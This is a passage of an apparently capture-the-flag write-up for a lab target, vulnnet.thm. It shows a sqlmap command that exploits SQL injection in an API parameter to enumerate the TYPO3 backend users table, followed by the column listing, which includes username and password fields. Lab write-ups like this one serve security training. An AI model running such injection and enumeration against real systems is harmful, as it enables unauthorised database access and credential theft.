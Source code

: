```bash
| tx_extensionmanager_domain_model_extension  |
| tx_extensionmanager_domain_model_repository |
| tx_impexp_presets                           |
+---------------------------------------------+
```

<br>

```bash
:~# sqlmap -u http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1 --batch -D vn_admin -T be_users --columns
```

```bash
Database: vn_admin                                                                                                                                                               
Table: be_users
[34 columns]
+-----------------------+----------------------+
| Column                | Type                 |
+-----------------------+----------------------+
| admin                 | smallint(5) unsigned |
| disable               | smallint(5) unsigned |
| options               | smallint(5) unsigned |
| password              | varchar(100)         |
| allowed_languages     | varchar(255)         |
| avatar                | int(10) unsigned     |
| category_perms        | text                 |
| crdate                | int(10) unsigned     |
| createdByAction       | int(11)              |
| cruser_id             | int(10) unsigned     |
| db_mountpoints        | text                 |
| deleted               | smallint(5) unsigned |
| description           | text                 |
| disableIPlock         | smallint(5) unsigned |
| email                 | varchar(255)         |
| endtime               | int(10) unsigned     |
| file_mountpoints      | text                 |
| file_permissions      | text                 |
| lang                  | varchar(6)           |
| lastlogin             | int(10) unsigned     |
| lockToDomain          | varchar(50)          |
| pid                   | int(10) unsigned     |
| realName              | varchar(80)          |
| starttime             | int(10) unsigned     |
| TSconfig              | text                 |
| tstamp                | int(10) unsigned     |
| uc                    | mediumblob           |
| uid                   | int(10) unsigned     |
| usergroup             | varchar(255)         |
| usergroup_cached_list | text                 |
| userMods              | text                 |
| username              | varchar(50)          |
| workspace_id          | int(11)              |
| workspace_perms       | smallint(6)          |
+-----------------------+----------------------+
```
